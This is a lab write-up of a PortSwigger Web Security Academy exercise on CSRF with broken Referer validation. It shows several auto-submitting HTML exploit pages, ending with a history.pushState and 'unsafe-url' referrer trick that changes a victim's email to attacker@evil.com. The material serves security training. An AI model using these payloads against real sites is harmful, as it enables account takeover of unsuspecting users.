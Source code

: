 # CSRF with broken Referer validation

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/csrf/lab-referer-validation-broken), you'll learn: CSRF with broken Referer validation! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★☆☆☆☆☆☆☆

## Background

This lab's email change functionality is vulnerable to CSRF. It attempts to detect and block cross domain requests, but the detection mechanism can be bypassed.

To solve the lab, use your exploit server to host an HTML page that uses a [CSRF attack](https://portswigger.net/web-security/csrf) to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020221215052029.png)

**Login as user `wiener`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020221215052052.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020221215052057.png)

In the previous labs, we found that the email change functionality is vulnerable to CSRF.

**Let's inspect that HTML form:**
```html
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="">
    <button class='button' type='submit'> Update email </button>
</form>
```

In here, we can see that there is **no CSRF token**.

**Now, we can use the `exploit serevr` to test CSRF attack:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020221215052342.png)

**Then, we can craft a HTML form that performs CSRF attack on the victim:**
```html
<html>
    <head>
        <title>CSRF-8</title>
    </head>
    <body>
        <form action="https://0a9400bc039e5e9ac050dc50005c009b.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="attacker@evil.com">
        </form>

        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

**To test is will work or not, I'll use the `View exploit` button:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020221215052529.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020221215052546.png)

However, it outputs an error: `Invalid referer header`.

**In the previous lab, we bypass that check with a `<meta>` tag:**
```html
<html>
    <head>
        <meta name="referrer" content="no-referrer">
        <title>CSRF-8</title>
    </head>
    <body>
        <form action="https://0a9400bc039e5e9ac050dc50005c009b.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="attacker@evil.com">
        </form>

        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

**Let's try that again:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020221215052723.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020221215052738.png)

Hmm... We still get an `Invalid referer header` error.

**This got me thinking: Is the application validates that the domain in the `Referer` starts with the expected value??**

**Let's check that in Burp Suite's Repeater:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020221215053511.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020221215053540.png)

**In here, we can try to send a different URL in the `Referer` header:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020221215053634.png)

**Then, what if I try to append a GET parameter after the expected value?**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020221215054242.png)

It still works!

**That being said, the application is checking the domain in the `Referer` starts with the expected value!**

**According the [Mozilla web docs](https://developer.mozilla.org/en-US/docs/Web/API/History/pushState), we can use a JavaScript function called `history.pushState()`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020221215054430.png)

**To bypass that check, we can add the `history.pushState()` function in our exploit:**
```html
<html>
    <head>
        <title>CSRF-8</title>
    </head>
    <body>
        <form action="https://0a9400bc039e5e9ac050dc50005c009b.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="attacker@evil.com">
        </form>

        <script>
            history.pushState('', '', '/?0a9400bc039e5e9ac050dc50005c009b.web-security-academy.net')
            document.forms[0].submit();
        </script>
    </body>
</html>
```

This will cause the `Referer` header in the generated request to contain the URL of the target site in the query string.

However, this still couldn't work, as many browsers now strip the query string from the Referer header by default as a security measure.

**To bypass that, we can just add a new `<meta>` tag to override that behavior and ensure that the full URL is included in the request:**
```html
<html>
    <head>
        <meta name="referrer" content="unsafe-url">
        <title>CSRF-8</title>
    </head>
    <body>
        <form action="https://0a9400bc039e5e9ac050dc50005c009b.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="attacker@evil.com">
        </form>

        <script>
            history.pushState('', '', '/?0a9400bc039e5e9ac050dc50005c009b.web-security-academy.net')
            document.forms[0].submit();
        </script>
    </body>
</html>
```

**Finally, we can send this exploit to a victim:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020221215054941.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020221215054955.png)

We successfully changed a victim email address!

# What we've learned:

1. CSRF with broken Referer validation